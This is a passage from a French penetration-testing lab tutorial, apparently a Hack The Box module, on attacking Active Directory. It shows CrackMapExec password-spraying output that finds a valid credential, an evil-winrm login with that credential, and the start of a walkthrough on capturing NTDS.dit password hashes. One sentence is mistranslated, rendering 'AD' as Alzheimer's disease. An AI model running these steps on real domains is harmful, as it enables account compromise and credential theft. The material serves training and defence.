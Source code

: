 ```
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2016 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2015 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2014 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:winter2013 STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:P@55w0rd STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [-] inlanefrieght.local\bwilliamson:P@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.129.201.57     445    DC01             [+] inlanefrieght.local\bwilliamson:P@55w0rd! 
```

Dans cet exemple, CrackMapExec utilise SMB pour tenter de se connecter en tant qu'utilisateur (-u) bwilliamson en utilisant une liste de mots de passe (-p) contenant une liste de mots de passe couramment utilisés (/usr/share/wordlists/fasttrack.txt). Si les administrateurs ont configuré une politique de verrouillage de compte, cette attaque pourrait verrouiller le compte que nous ciblons. Au moment d'écrire ces lignes (janvier 2022), une politique de verrouillage de compte n'est pas appliquée par défaut avec les politiques de groupe par défaut qui s'appliquent à un domaine Windows, ce qui signifie qu'il est possible que nous rencontrions des environnements vulnérables à cette attaque exacte que nous pratiquons. 

<hr>

# Capturer NTDS.dit
NT Directory Services (NTDS) est le service d'annuaire utilisé avec AD pour rechercher et organiser les ressources réseau. Rappelez-vous que le fichier NTDS.dit est stocké dans %systemroot$/ntds sur les contrôleurs de domaine d'une forêt. Le .dit représente l'arborescence des informations de répertoire. Il s'agit du fichier de base de données principal associé à AD et stocke tous les noms d'utilisateur de domaine, les hachages de mot de passe et d'autres informations de schéma critiques. Si ce fichier peut être capturé, nous pourrions potentiellement compromettre chaque compte sur le domaine similaire à la technique que nous avons couverte dans la section Attaque SAM de ce module. Pendant que nous pratiquons cette technique, réfléchissez à l'importance de protéger la maladie d'Alzheimer et réfléchissez à quelques moyens d'empêcher cette attaque de se produire.

## Connexion à un DC avec Evil-WinRM
Nous pouvons nous connecter à un DC cible en utilisant les informations d'identification que nous avons capturées.
```
dsgsec@htb[/htb]$ evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

Evil-WinRM se connecte à une cible à l'aide du service de gestion à distance de Windows combiné au protocole PowerShell Remoting pour établir une session PowerShell avec la cible.

## Vérification de l'appartenance à un groupe local
Une fois connecté, nous pouvons vérifier quels sont les privilèges de bwilliamson. Nous pouvons commencer par examiner l'appartenance au groupe local à l'aide de la commande :
```
*Evil-WinRM* PS C:\> net localgroup

Aliases for \\DC01

-------------------------------------------------------------------------------
*Access Control Assistance Operators
*Account Operators
*Administrators
*Allowed RODC Password Replication Group
*Backup Operators
```